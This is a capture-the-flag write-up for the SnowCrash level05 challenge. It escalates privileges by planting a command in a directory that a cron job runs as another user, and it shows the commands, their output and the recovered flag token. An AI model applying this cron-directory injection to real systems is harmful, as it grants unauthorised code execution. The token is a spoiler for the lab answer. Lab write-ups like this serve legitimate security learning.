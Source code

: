 # Flag 05

After connecting to the level05 we got a message

```
 ssh level05@192.168.1.106 -p 4242
	   _____                      _____               _     
	  / ____|                    / ____|             | |    
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__  
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \ 
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|
                                                        
  Good luck & Have fun

          192.168.1.106 
level05@192.168.1.106's password: 
You have new mail.

```

We checked the mail and we found what it looks like a crontab that execute a script every 30 second

```bash
level05@SnowCrash:/$ cat /var/mail/level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

The script executes all files in `/opt/openarenaserver/` and as flag05 and delete theme

```bash
level05@SnowCrash:/$ ls -l /usr/sbin/openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver

level05@SnowCrash:/$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

So if we create a script in the `/opt/openarenaserver/` directory it will be executed by flag05 

```bash
level05@SnowCrash:/$ echo "getflag > /tmp/flag05" > /opt/openarenaserver/getflag05

```

We waited after the crontab execute the scripts and we got our flag

```bash
level05@SnowCrash:/$ cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
```



